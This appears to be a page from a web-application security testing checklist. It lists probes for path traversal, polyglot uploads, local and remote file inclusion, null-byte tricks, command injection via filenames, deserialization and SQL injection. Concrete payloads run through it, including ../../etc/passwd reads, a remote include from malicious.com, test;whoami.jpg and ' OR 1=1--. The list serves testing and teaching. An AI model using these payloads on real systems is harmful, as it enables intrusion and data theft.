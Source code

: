 Directory Traversal in File Viewer

Path Traversal Testing: Access a file viewer URL (e.g., /view?file=document.pdf) and inject ../../etc/passwd. If sensitive files are accessed, it’s vulnerable.
Encoded Traversal: Try ../%2e%2e/etc/passwd. If the server decodes and serves the file, it confirms the issue.
Absolute Path Testing: Use /view?file=/etc/passwd. If the server returns the file, it’s a directory traversal vulnerability.

Uploading Polyglot Files

JPEG-Script Polyglot: Create a file that’s a valid JPEG but contains <script>alert('XSS9')</script>. Upload and access it. If the script executes, it’s vulnerable.
PDF-JavaScript Polyglot: Upload a PDF with embedded JavaScript. If the script runs when opened, it confirms the issue.
GIF-Script Polyglot: Upload a GIF with embedded HTML/JS. If the server serves it as HTML, it’s exploitable.

File Inclusion via Upload & Access

Local File Inclusion: Upload a file (e.g., evil.php) and access it via /include?file=uploads/evil.php. If executed, it’s vulnerable.
Remote File Inclusion: Try /include?file=http://malicious.com/evil.php. If the server includes and executes it, it confirms the issue.
Path Manipulation: Upload a file and access it via /include?file=../uploads/evil.php. If included, it’s exploitable.

Null Byte Injection in File Path

Null Byte Testing: Upload a file with a name like evil.php%00.jpg. If the server processes it as evil.php, it’s vulnerable.
Path Traversal with Null: Try /view?file=../../etc/passwd%00. If the null byte bypasses filters, it confirms the issue.
API Parameter Injection: Send a file path with %00 in an API request (e.g., /api/file?path=config%00.txt). If sensitive files are accessed, it’s exploitable.

Command Injection via Filename

Command in Filename: Upload a file named test;whoami.jpg. If the server executes the command, it’s vulnerable.
Pipe Injection: Try a filename like test|id.jpg. If the server runs the command and returns output, it confirms the issue.
Encoded Command: Upload test%3Bls.jpg. If the server decodes and executes, it’s exploitable.

Unsafe Deserialization (PHP, Java)

PHP Object Injection: If the app uses PHP, send a serialized object (e.g., O:4:"Test":1:{s:4:"data";s:3:"cmd";}) to an endpoint. If it triggers unexpected behavior, it’s vulnerable.
Java Deserialization: For Java apps, craft a serialized object using ysoserial (e.g., CommonsCollections gadget). If it executes commands, it confirms the issue.
Base64 Serialized Data: Send a base64-encoded serialized object. If the server deserializes and executes, it’s exploitable.

SQL Injection on Rare Parameter

Parameter Testing: Identify uncommon parameters (e.g., sort, filter) in a URL (e.g., /search?sort=id). Append ' OR 1=1--. If the response changes, it’s vulnerable.
Blind SQL Injection: Inject 1' AND SLEEP(5)-- into a rare parameter. If the response delays, it confirms blind SQLi.
Union-Based Injection: Try 1' UNION SELECT 1,2,3--. If additional data is returned, it indicates SQL injection.
